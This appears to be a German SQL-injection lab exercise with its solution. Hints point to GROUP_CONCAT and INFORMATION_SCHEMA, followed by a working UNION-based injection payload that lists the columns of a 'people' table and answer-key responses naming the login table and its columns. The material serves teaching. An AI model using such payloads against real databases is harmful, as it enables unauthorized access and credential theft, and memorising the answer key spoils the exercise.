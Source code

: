 Nun sollen die Spaltennamen der Tabelle ausgelesen werden.

Tipp:
Sie benötigen `GROUP_CONCAT()` und `INFORMATION_SCHEMA.COLUMNS`.

Tipp 2:
https://dev.mysql.com/doc/refman/8.0/en/information-schema-innodb-columns-table.html

Statement:
' AND 1=0 UNION SELECT (SELECT GROUP_CONCAT(column_name) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'people'), MD5('pass'), 1, 1;--

>>4) In welcher Tabelle vermuten Sie die Login-Daten?<<
     === people

>>5) Welche Spalten enthält die Tabelle? Geben Sie die Spaltennamen in der Reihenfolge der Ausgabe und mit Leerzeichen getrennt an.<<
     === name pass email state
